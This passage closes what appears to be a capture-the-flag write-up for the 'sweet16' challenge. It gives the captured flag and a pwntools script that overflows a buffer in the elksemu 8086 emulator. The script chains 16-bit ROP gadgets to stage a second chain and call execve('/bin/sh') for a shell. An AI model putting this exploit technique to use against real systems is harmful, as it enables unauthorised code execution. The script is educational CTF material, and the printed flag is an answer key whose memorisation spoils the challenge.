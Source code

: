 I used some sleeps to better synchronize the remote process between the chains.

And there you go, you have the shell! Cat the flag to obtain:

**srdnlen{m0d3rn_xpl01t4t10n_ag41nst_o1d_8086_syst3ms}** 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./elksemu")
context.binary = exe
context.terminal = ["tmux", "neww", "-n", "shell"]

host, port = "localhost", 1616

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(host, port)
    elif args.SSH:
        return ssh(user, host)
    else:
        return process([exe.path, "./sweet16"] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

ru  = lambda *x, **y: io.recvuntil(*x, **y)
rl  = lambda *x, **y: io.recvline(*x, **y)
rc  = lambda *x, **y: io.recv(*x, **y)
sla = lambda *x, **y: io.sendlineafter(*x, **y)
sa  = lambda *x, **y: io.sendafter(*x, **y)
sl  = lambda *x, **y: io.sendline(*x, **y)
sn  = lambda *x, **y: io.send(*x, **y)

# -- Exploit goes here --

offset = b"a"*42
io = start()
rc(timeout=1)

### Gadgets ###
ax_sp = 0x2a9 # xchg ax, di; sp, bp; pop bp;pop di; pop si; ret;
pop_bp_di = 0x2ac # pop bp; pop di; pop si; ret
syscall = 0x9f # mov sp, bx; dx = sp[6]; cx = sp[4]; bx = sp[2]; int 0x80
read_sys = 0x88
main = 0x0

### Chain 1 ###
chain1 = p16(read_sys) + p16(main) + p16(0) + p16(0x2d00) + p16(200) # write the final ROP chain on 0x2d00 with a length of 200 bytes
sl(offset+chain1)
sleep(0.2)
### Chain 3 ###
chain3 = p16(1337) + p16(1337) + p16(1337) + p16(syscall) + p16(1337) + p16(0x2d00) + p16(0)+p16(0) # Call excve("/bin/sh")
sl(b"/bin/sh\x00"+chain3)
sleep(0.2)
### Chain 2 ###
chain2 = p16(pop_bp_di) + p16(0x2d08) + p16(11) +p16(1337) + p16(ax_sp)
```